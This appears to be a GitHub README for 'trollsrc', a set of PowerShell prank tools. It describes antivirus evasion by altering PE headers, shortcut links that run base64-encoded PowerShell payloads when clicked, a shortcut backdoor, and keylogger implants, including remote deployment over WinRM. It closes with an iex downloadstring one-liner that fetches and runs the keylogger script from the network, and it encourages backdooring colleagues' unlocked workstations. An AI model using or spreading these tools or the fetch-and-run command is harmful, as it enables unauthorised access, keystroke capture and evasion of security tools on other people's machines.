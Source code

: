 # trollsrc
PoCs to share for trolling
## WARNING, THIS REPO IS FOR ADVANCED PERSISTENT TROLLS ONLY
These tools are intended to be used in a well-configured windows environment that allows for some user-level powershell execution.
Have a problem with admins leaving their workstations unlocked? Teach them a lesson by performing a benign backdoor on their primary web browser and wait :D

## .\Invoke-Dickfuscation.ps1 -target C:\mimikatz.exe
* Takes a target binary
* Bypasses most AV by overwriting the 'This program cannot be run in DOS mode' PE bytes with an ASCII cock

## .\Invoke-DickBomb.ps1 -target 8.8.8.8 -port 53 -count 3
* Sends a naughty message several times to a given socket.
* Leave some fun evidence for the DFIR guys :D

## .\make-shortcut.ps1
* Generates malicious shortcut links (chrome Icon mimicked by default)
* Takes powershell 1 liners as an optional argument; base64 encodes and executes payload when the icon is clicked

## .\bd-lnk.ps1 
* Takes a shortcut path as an argument; backdoors it with a troll message payload
* it will backdoor the link with a powershell troll msg and then redirect execution to the original application
* this will copy the source icon to $env:homepath\trollz\linkbackup\$foo.lnk for restoration
* .\bd-lnk.ps1 -sourcepath "$env:homepath\desktop\google chrome.lnk" 

## .\keyimp.ps1
* keyimp-ri.ps1 is intended for REMOTE implants, i.e. this can be run on a system via WinRM 
* keyimp.ps1 and simple-keyimp.ps1 are intended to be loaded from the target user session (unlocked workstation)
* loads up a keylogger that pops calc.exe anytime 'c' is pressed
* iex (new-object system.net.webclient).downloadstring("https://raw.githubusercontent.com/pooki3bear/trollsrc/master/keyimp.ps1")
